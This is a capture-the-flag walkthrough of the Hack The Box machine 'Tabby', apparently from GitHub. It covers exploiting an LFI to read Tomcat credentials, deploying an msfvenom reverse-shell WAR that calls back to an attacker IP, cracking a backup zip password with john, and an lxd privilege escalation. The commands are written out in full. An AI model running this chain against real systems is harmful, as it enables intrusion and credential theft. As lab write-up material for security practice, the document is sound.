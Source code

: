 # [Tabby](https://app.hackthebox.com/machines/tabby)

```bash
nmap -p- --min-rate 10000 10.10.10.194 -Pn
```

![Alt text](img/image.png)

```bash
nmap -sC -sV -A -p22,80,8080 10.10.10.194 -Pn
```
![Alt text](img/image-4.png)

After we enumerating web application, we find LFI on port 80 that we have application.

There is file called 'news.php' that have parameter 'file' that we include file here what we want.

![Alt text](img/image-1.png)


We know that tomcat user's credentials are stored below location while running from root location.

![Alt text](img/image-2.png)

Another location is possible that '/usr/share/tomcat9/etc/tomcat-users.xml'

Let's read this file via LFI vulnerability.

![Alt text](img/image-3.png)


We grab credentials from here.

tomcat:$3cureP4s5w0rd123!



Let's learn what we have access via 'tomcat' user.

```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
```

![Alt text](img/image-5.png)


Let's upload maliicous reverse (.war) file into application.


Let's generate reverse shell first,
```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.16.5 lport=1337 -f war -o dr4ks.war
```

![Alt text](img/image-6.png)


Let's upload malicious reverse shell file into application.

```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/dr4ks --upload-file dr4ks.war
```

![Alt text](img/image-7.png)

Now, it's time to open listener, then browse the page '/dr4ks'.


![Alt text](img/image-8.png)


![Alt text](img/image-9.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


After making enumeration, I find '/var/www/html/files' directory that have interesting '16162020_backup.zip' file. Let's upload this into our machine.

![Alt text](img/image-10.png)

Then , we got what we want.
![Alt text](img/image-11.png)


After getting file, let's try to crack this.

1. First convert into john (hash) via `zip2john 16162020_backup.zip > hash.txt` tool.
2. ```bash john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt```


![Alt text](img/image-12.png)

We find password that equals to 'admin@it'.


There's double use for password for 'ash' user.


ash: admin@it

user.txt

![Alt text](img/image-13.png)


I enumerate this user and find that user belongs 'lxd' group.

![Alt text](img/image-14.png)

I find most interesting and useful [exploit](https://blog.m0noc.com/2018/10/lxc-container-privilege-escalation-in.html?m=1)


![Alt text](img/image-15.png)


root.txt

![Alt text](img/image-16.png)